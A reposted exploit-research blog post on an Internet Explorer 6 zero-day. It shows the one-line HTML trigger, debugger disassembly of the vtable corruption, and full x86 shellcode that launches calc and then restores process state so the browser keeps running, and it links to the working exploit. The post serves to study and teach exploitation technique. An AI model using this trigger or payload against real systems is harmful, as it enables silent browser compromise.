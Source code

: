 ```yaml
---
layout: post
title: "Process continuation after exploit (aka. IE is my process launcher)"
description: ""
category:
tags: [exploit, process continuation, shellcode]
---
```


This is an old post from one of my old blogs so reposting here for eternity (not one of the most elegant teks, looking at you Seba from the past).

Last week another 0day was discovered in the wild exploiting Internet Explorer. And as the bug wasn’t hard
to trigger/exploit in IE 6, I thought that it would be good to add another decoration to this exploit.
As last week I was also talking to some friends about why exploit writers are not interested on recovering process (or why don’t they do it), I decided to write this post.
Here will describe how to make IE6 continue after it has been successfully exploited using last 0day bug.

The trigger for the bug is: `<table style="position: absolute; clip: rect(0);">`

When we trigger the bug we see that we are using a defaced vtable, in my IE, i see that the jump comes from `EnsureDispNodeBackground`:

```
0:000> ub 7dcb1c3f
mshtml!CLayout::EnsureDispNodeBackground+0x81:
7dcb1c2d 33f6            xor     esi,esi
7dcb1c2f 46              inc     esi
7dcb1c30 56              push    esi
7dcb1c31 8bcf            mov     ecx,edi
7dcb1c33 e813e2ffff      call    mshtml!CDispNode::SetBackground (7dcafe4b)
7dcb1c38 8b07            mov     eax,dword ptr [edi] ;<-- pointer to chaos
7dcb1c3a 8bcf            mov     ecx,edi
7dcb1c3c ff5030          call    dword ptr [eax+30h]
```

As you can see, the object is in edi, so it takes the vtable from object[0] and then dereferences vtable+0×30 to get the function.

After some research discovered that the vtable address was being overwritten by the function `CDispNode::SetUserClip` when trying to set a flag on a miscalculated address.

```
mshtml!CDispNode::SetUserClip+0x84:
7dd8b5d0 e8b4ddffff      call    mshtml!CRect::RestrictRange (7dd89389)
7dd8b5d5 8b4704          mov     eax,dword ptr [edi+4]
7dd8b5d8 23c6            and     eax,esi
7dd8b5da 0fb688101cc37d  movzx   ecx,byte ptr mshtml!CDispNode::_extraSizeTable (7dc31c10)[eax]
7dd8b5e1 8bc7            mov     eax,edi
7dd8b5e3 c1e102          shl     ecx,2
7dd8b5e6 2bc1            sub     eax,ecx
7dd8b5e8 830801          or      dword ptr [eax],1 ;<-- the address of the vtable is on *eax
```

The main idea of autorecovering exploits is that we can give the process the same state that it had before being exploited and this bug is perfect for this!.
The only corruption we have when the bug is triggered is 1 bit (afaik). We don’t really know if the vtable of the object is used again, but we are gonna fix it and set eax to 0 (the function failed).

I have used this shellcode [http://code.google.com/p/w32-exec-calc-shellcode/] , greets to berendjanwever for being first on google when searching calc shellcode and having a working one, you deserve the mention!
I have not made any modification to it, just added a prologue and epilogue to save/recover the state.

```
BITS 32

;;; lets patch vtable address
and dword [edi], 0xFFFFFFFE
;;; save registers
pushad
;;; push a mark on the stack
;;; (lazy stack recovery after the payload is executed)
push 0xdead1337
;; here starts the shellcode for launching the calculator
;;  ============================================
xor esi,esi
push esi
mov esi,[fs:esi+0x30]
mov esi,[esi+0xc]
mov esi,[esi+0x1c]
l1:
mov ebp,[esi+0x8]
mov esi,[esi]
mov ebx,[ebp+0x3c]
mov ebx,[ebp+ebx+0x78]
add ebx,ebp
mov ecx,[ebx+0x18]
jcxz l1
l2:
mov edi,[ebx+0x20]
add edi,ebp
mov edi,[edi+ecx*4-0x4]
add edi,ebp
xor eax,eax
cdq
l3:
xor dl,[edi]
ror dx,0x1
scasb
jnz l3
cmp dx,0xf510
loopne l2
jnz l1
mov edx,[ebx+0x24]
add edx,ebp
movzx edx,word [edx+ecx*2]
mov edi,[ebx+0x1c]
add edi,ebp
add ebp,[edi+edx*4]
push dword 0x6578652e
push dword 0x636c6163
push esp
xchg eax,[esp]
push eax
call ebp
;;  ============================================
;;; then recover stack, search for our mark
l10:
    pop eax
    cmp eax, 0xdead1337
    jne l10
;;; restore registers
popad
;;; return from the function with error
xor eax,eax
;;; if the function had arguments we should clean them
;;; depending on the calling convention (not here :-) )
ret
;;; should never reach this point
int3
```

As we can see, recovering from the exploit is not difficult for this bug. Anyways, it could be pretty more difficult when exploiting other bugs that do more memory corruption.

The final working exploit is here: [ie_clip.html](http://snf.github.io/public/data/ie_clip.html) (open at your own risk ;-) ).

And the demo (for not believers) showing the exploit working 3 times and Internet Explorer still working: [http://www.youtube.com/watch?v=dgV9q9Cw0PU].

Interesting slides about process continuation:
[User Friendly Exploits](http://www.immunitysec.com/downloads/skylar_cansecwest09.pdf)

Greetz to all my friends and coworkers.
And sorry to all of you who were expecting a spanish post.
